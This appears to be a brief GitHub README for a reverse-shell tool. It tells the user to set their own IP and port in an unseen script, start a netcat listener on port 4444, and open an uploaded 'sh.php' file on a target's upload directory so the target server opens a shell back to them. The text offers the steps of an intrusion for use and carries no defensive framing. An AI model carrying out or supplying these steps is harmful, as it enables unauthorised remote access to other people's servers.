 # Reverse_shell

in the script change the ip in your ip machine and port(if you want)

# nc 

run the command 'nc -lvnp 4444' and go to "target"/upload/sh.php and well done
